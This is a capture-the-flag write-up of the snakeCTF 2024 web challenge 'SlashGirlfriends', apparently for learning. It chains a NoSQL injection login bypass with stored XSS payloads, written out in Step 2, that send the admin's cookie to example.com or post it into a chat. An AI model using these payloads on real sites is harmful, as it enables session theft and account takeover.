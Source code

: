 # SlashGirlfriends [_snakeCTF 2024 Quals_]

**Category**: web

## Description

I found this quirky site called SlashGirlfriends, which claims to be
the largest AI girlfriend directory. (Clever name, huh?) \
Word on the street is that the admins are hiding something juicy on the
site. But to get to the good stuff, you'll need the admin's credentials...

Think you can uncover their secret?

## Solution

### Step 1: Exploiting NoSQL Injection

The challenge begins by exploiting a NoSQL injection vulnerability when determining eligibility for a free premium membership. By signing up with a username such as `' || '1'=='1`, the backend query responsible for checking eligibility is manipulated to always return `true`. This is a crucial step as it grants premium access, allowing message history to be saved, which is necessary for the subsequent stages of the exploit.

### Step 2: Injecting XSS Payload and Triggering the Admin Bot

Once premium access has been obtained, an XSS vulnerability within the chat messages is exploited. The chat messages are stored as functions that return a string for HTML formatting. Although the server attempts to escape apostrophes in user messages to prevent XSS, this protection can be bypassed using `\\\"`.

There are 2 ways to approach the payload, since the admin bot cannot make external requests outside the website:

- The first approach, would be to use the Next.js image optimization API, which is misconfigured, and allows to fetch any link.
  An XSS payload similar to the following can be injected:

  ```javascript
  \\\"; fetch('/_next/image?url=example.com?cookie=' + document.cookie + '&w=640&q=75') //
  ```

- The second approach would be to just send the cookie in chat.
  An XSS payload similar to the following can be injected:

  ```javascript
   \\\"; fetch('/api/sendMessage', { method: 'POST', headers: { 'Content-Type': 'application/json' }, body: JSON.stringify({ girlfriendId: 'cucalampa', message: document.cookie }) });  //
  ```

After injecting this payload into a chat message, it is necessary to report the conversation to the administrator bot. When the admin bot reviews the message, the XSS payload is executed.

### Step 3: Locating the Admin Page

Once the administrator's cookie has been obtained, admin-level access is achieved. The next task involves locating the admin page where the flag is stored. By examining the client-side code of the web application, particularly the `_buildManifest.js` file, the paths to all client pages are revealed, including the `/admin-page-very-important`.

### Step 4: Retrieving the Flag

Using the stolen administrator cookie, a request to the `/admin-page-very-important` page can be made. The flag will be displayed within a `<code>` element.

[Here](./attachments/solve.py) is the solver code.
